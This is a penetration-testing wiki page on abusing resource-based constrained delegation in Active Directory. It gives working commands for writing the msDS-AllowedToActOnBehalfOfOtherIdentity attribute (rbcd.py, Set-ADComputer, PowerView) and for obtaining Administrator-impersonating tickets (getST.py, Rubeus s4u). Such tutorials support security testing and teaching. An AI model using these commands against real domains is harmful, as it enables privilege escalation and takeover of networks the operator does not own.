

# (RBCD) Resource-based constrained

## Theory

If an account, having the capability to edit the `msDS-AllowedToActOnBehalfOfOtherIdentity` security descriptor of another object (e.g. the `GenericWrite` ACE, see [Abusing ACLs](../../access-control-entries/)), is compromised, an attacker can use it populate that attribute, hence configuring that object for RBCD.


Machine accounts can edit their own `msDS-AllowedToActOnBehalfOfOtherIdentity` security descriptor. Hence allowing RBCD attacks on relayed machine accounts authentications.


For this attack to work, the attacker needs to populate the target attribute with an account having a `ServicePrincipalName` set (needed for Kerberos delegation operations). The usual way to conduct these attacks is to create a computer account, which comes with an SPN set. This is usually possible thanks to a domain-level attribute called [`MachineAccountQuota`](../../domain-settings/machineaccountquota.md) that allows regular users to create up to 10 computer accounts. While this "computer account creation + RBCD attack" is the most common exploitation path, doing so with a user account (having at least one SPN) is perfectly feasible.

Then, in order to abuse this, the attacker has to control the account the object's attribute has been populated with (i.e. the account that has an SPN). Using that account's credentials, the attacker can obtain a ticket through `S4U2Self` and `S4U2Proxy` requests, just like constrained delegation with protocol transition.



## Practice



**1 - Edit the target's security descriptor (ACE abuse) **:pencil2:** **

The [rbcd.py](https://github.com/ShutdownRepo/impacket/blob/rbcd/examples/rbcd.py) script (Python) _(_[_Pull Request pending_](https://github.com/SecureAuthCorp/impacket/pull/1108)_ at the time of writing - 29th Sept. 2021)_ can be used to read, write or clear the delegation rights, using the credentials of a domain user that has the needed permissions.

```bash
# Read the security descriptor
rbcd.py -delegate-to 'target$' -dc-ip 'DomainController' -action read 'DOMAIN'/'POWERFULUSER':'PASSWORD'

# Append value to the msDS-AllowedToActOnBehalfOfOtherIdentity SD
rbcd.py -delegate-from 'accountwithSPN' -delegate-to 'target$' -dc-ip 'DomainController' -action write 'DOMAIN'/'POWERFULUSER':'PASSWORD'
```


Testers can also use [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to set the delegation rights with the `--delegate-access` option when conducting this attack from a [relayed authentication](../../ntlm/relay.md).


**2 - Obtain a ticket (delegation operation) **:ticket:** **

Once the security descriptor has been modified, the [Impacket](https://github.com/SecureAuthCorp/impacket) script [getST](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) (Python) can then perform all the necessary steps to obtain the final "impersonating" ST (in this case, "Administrator" is impersonated but it can be any user in the environment).

```bash
getST.py -spn $target_SPN -impersonate Administrator -dc-ip $DomainController 'DOMAIN/SHUTDOWN$:SomePassword'
```

The SPN (ServicePrincipalName) set can have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations (more info on [adsecurity.org](https://adsecurity.org/?page_id=183)).


In [some cases](./#theory), the delegation will not work. Depending on the context, the [bronze bit ](../forged-tickets.md#bronze-bit-cve-2020-17049)vulnerability (CVE-2020-17049) can be used with the `-force-forwardable` option to try to bypass restrictions.


**3 - Pass-the-ticket **:passport_control:** **

Once the ticket is obtained, it can be used with [pass-the-ticket](../pass-the-ticket.md).



In order to run the following commands and tools as other users, testers can check the [user impersonation](../../credentials/impersonation.md) part.

**1 - Edit the target's security descriptor (ACE abuse)**:pencil2:** **

The [PowerShell ActiveDirectory module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)'s cmdlets Set-ADComputer and Get-ADComputer can be used to write and read the attributed of an object (in this case, to modify the delegation rights).

```bash
# Read the security descriptor
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount

# Populate the msDS-AllowedToActOnBehalfOfOtherIdentity
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount 'accountwithSPN'
```

PowerSploit's [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) module is an alternative that can be used to edit the attribute ([source](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html?highlight=genericall#id31)).

```bash
# Obtain the SID of the controlled computer account
$ComputerSid = Get-DomainComputer 'PENTEST01' -Properties objectsid | Select -Expand objectsid

# Build a generic ACE with the attacker-added computer SID as the pricipal, and get the binary bytes for the new DACL/ACE
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# set SD in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the target comptuer account
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

**2 - Obtain a ticket (delegation operation) **:ticket:** **

[Rubeus](https://github.com/GhostPack/Rubeus) can then be used to request the TGT and "impersonation ST" and inject it for later use.

```bash
# Request the TGT
Rubeus.exe tgtdeleg

# Request the "impersonation" service ticket
Rubeus.exe s4u /user:SHUTDOWN$ /rc4:$NThash /impersonateuser:Administrator /msdsspn:$Target_SPN /ptt
```

The NT hash can be computed as follows.

```bash
Rubeus.exe hash /password:$password
```

**3 - Pass-the-ticket **:passport_control:** **

Once the ticket is injected, it can natively be used when accessing the service (see [pass-the-ticket](../pass-the-ticket.md)).



## Resources






